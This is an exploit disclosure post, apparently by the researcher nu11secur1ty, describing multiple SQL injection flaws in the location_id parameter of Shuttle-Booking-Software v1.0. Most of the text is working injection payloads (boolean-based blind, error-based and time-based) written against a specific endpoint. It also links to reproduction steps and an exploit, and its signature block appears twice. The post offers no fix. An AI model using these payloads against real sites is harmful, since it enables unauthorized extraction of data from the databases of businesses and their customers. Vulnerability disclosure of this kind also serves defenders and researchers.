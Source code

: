 # Multiple-SQLi
Shuttle-Booking-Software v1.0 - Multiple-SQLi
The attacker easily can steal all information from the database of
this web application!
WARNING! All of you: Be careful what you buy! This will be your responsibility!

STATUS: HIGH-CRITICAL Vulnerability

[+]Payload:
```mysql
---
Parameter: location_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: controller=pjFrontPublic&action=pjActionGetDropoffs&index=348&location_id=3''')
AND 1347=1347 AND ('MVss'='MVss&traveling=from

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (GTID_SUBSET)
    Payload: controller=pjFrontPublic&action=pjActionGetDropoffs&index=348&location_id=3''')
AND GTID_SUBSET(CONCAT(0x716b786a71,(SELECT
(ELT(9416=9416,1))),0x71706b7071),9416) AND
('dOqc'='dOqc&traveling=from

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: controller=pjFrontPublic&action=pjActionGetDropoffs&index=348&location_id=3''')
AND (SELECT 1087 FROM (SELECT(SLEEP(15)))poqp) AND
('EEYQ'='EEYQ&traveling=from
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/phpjabbers/2023/Shuttle-Booking-Software-1.0)

## Proof and Exploit:
[href](https://www.nu11secur1ty.com/2023/09/shuttle-booking-software-10-multiple.html)

## Time spent:
01:47:00


-- 
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.htmlhttps://cxsecurity.com/ and
https://www.exploit-db.com/
0day Exploit DataBase https://0day.today/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=
                          nu11secur1ty <http://nu11secur1ty.com/>


-- 
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.html
https://cxsecurity.com/ and https://www.exploit-db.com/
0day Exploit DataBase https://0day.today/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=
                          nu11secur1ty <http://nu11secur1ty.com/>
            
